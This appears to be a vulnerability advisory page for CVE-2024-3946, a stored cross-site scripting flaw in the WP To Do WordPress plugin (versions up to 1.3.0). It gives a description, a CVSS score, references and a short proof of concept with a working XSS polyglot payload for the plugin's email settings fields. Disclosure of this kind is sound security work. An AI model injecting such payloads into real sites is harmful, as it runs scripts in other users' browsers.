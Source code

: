 ```yaml
---
layout: page
title: CVE-2024-3946
subtitle: WP To Do <= 1.3.0 - Authenticated (Admin+) Stored Cross-Site Scripting via Settings
---
```

## Description
The WP To Do plugin for WordPress is vulnerable to Stored Cross-Site Scripting via admin settings in all versions up to, and including, 1.3.0 due to insufficient input sanitization and output escaping. This makes it possible for authenticated attackers, with administrator-level permissions and above, to inject arbitrary web scripts in pages that will execute whenever a user accesses an injected page. This only affects multi-site installations and installations where unfiltered_html has been disabled.

## Severity
 4.4 (Medium) - [CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N)

## Affected Version
    <= 1.3.0

## PoC :
```
- Go To WP To Do/Settings
- Put this payload on field "Email subject" & "Email Body"
JavaScript://%0A/*?'/*\\'/*"/*\\"/*`/*\\`/*&apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(confirm)(1+2+3+4+5+6+7+8+9+10+11+12+13+14+15+16+17+18+19+20+45+500+1000-400-20+2)}//><Base/Href=//ener1-s3c.github.io\\76-->
- Submit Query
```

## Reference
- https://plugins.trac.wordpress.org/browser/wp-todo/trunk/inc/Base/Model.php#L304
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-todo/wp-to-do-130-authenticated-admin-stored-cross-site-scripting-via-settings





